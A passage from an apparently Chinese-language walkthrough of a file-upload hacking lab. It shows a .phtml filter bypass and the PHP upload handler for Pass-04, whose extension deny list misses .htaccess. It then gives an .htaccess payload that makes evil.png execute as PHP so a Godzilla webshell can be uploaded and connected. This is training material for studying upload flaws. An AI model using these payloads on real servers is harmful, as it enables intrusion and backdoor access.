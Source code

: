 这样就可以了，传一个phtml文件即可绕过。

然后哥斯拉连即可。

## Pass-04

源码如下：

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2","php1",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2","pHp1",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件不允许上传!';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

几乎把能解析的尾缀都已经Ban了，但是注意到没有禁用`.htaccess`，这是Apache的一个解析文件，直接上传文件把png解析成php即可。

```htaccess
<FilesMatch "evil.png">
SetHandler application/x-httpd-php
</FilesMatch>
```

然后把哥斯拉后门改成evil.png文件名上传即可。

## Pass-05
